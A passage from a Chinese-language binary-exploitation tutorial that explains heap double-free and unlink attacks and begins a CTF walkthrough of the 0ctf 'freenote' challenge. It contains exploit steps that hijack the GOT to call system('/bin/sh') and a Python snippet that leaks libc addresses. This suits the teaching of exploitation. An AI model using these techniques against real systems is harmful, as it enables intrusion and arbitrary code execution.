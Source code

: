 ```

[*] Switching to interactive mode
$ whoami
mzheng
```

# 0x03 堆漏洞利用之double free

------

讲了那么多stack overflow的例子，我们现在换换口味，先从double free开始讲一下堆漏洞的利用。Double free的意思是一个已经被free的内存块又被free了第二次。正常情况下，如果double free，系统会检测出该内存块已经被free过了，不能被free第二次，程序会报错然后退出。但是如果我们精心构造一个假的内存块就可骗过系统的检测，然后得到内存地址任意写的权限。随后就可以修改got表将接下来会执行的函数替换成system()再将参数改为我们想要执行的指令，比如`"/bin/sh"`。最后就可以执行`system("/bin/sh")`了。

想要学习double free，首先要了解什么是free chunk和allocated chunk。这个在网上有大量的资料，请感兴趣的同学自学。

![image-20190213012913258](assets/hacker_rop_gadgets/image-20190213012913258.png)

然后要了解Fast bin，Unsorted bin，Small bin和Large bin的概念。这个可以看这篇文章学习：

<https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/comment-page-1/>

除此之外还有个gdb工具可以帮助我们查看内存中堆的信息，这对我们调试程序会有很大的帮助:

<https://github.com/cloudburst/libheap>

等到对堆的基本概念了解的差多了就可以学习如何利用unlink来做到内存写了。在最早版本的unlink中对内存chunk是没有任何检测的，因此我们可以很容易的做到内存任意写。但现在版本的libc中会对free的那个chunk进行检测，这个chunk的前一个chunk的bk指针和这个chunk的后一个chunk的fd指针必须指向这个即将free的chunk才行。为了bypass这个检测，我们必须在内存中找到一个地址X指向P，然后将P的fd和bk指向X。最后再触发double free的unlink，就可以将P地址的值设置为X了。

![image-20190213012942486](assets/hacker_rop_gadgets/image-20190213012942486.png)

我们这次使用0ctf中的freenote这道题来实践一下double free漏洞的利用。执行这个程序我能看到这其实就是一个note记事本程序。通过new note和delete note可以malloc()和free()内存。

```
$ ./freenote_x64 
== 0ops Free Note ==
1. List Note
2. New Note
3. Edit Note
4. Delete Note
5. Exit
====================
```

但是这个程序有两个漏洞，一个是建立新note的时候在note的结尾处没有加"\0"因此会造成堆或者栈的地址泄露，另一个问题就是在delete note的时候，并不会检测这个note是不是已经被删除过了，因此可以删除一个note两遍，造成double free。

首先我们要泄露libc和heap在内存中的地址。因为note的结尾没有"\0"，因此在输出时会把后面的内容打印出来。因为freelist的头部保存在了libc的.bss段，因此我们可以见通过删除两个note再删除一个note，然后再建立一个新note的方法来泄露出libc在内存中的地址：

```
#!python
notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\xb8")
list_note()
p.recvuntil("0. ")
leak = p.recvuntil("\n")

print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)
```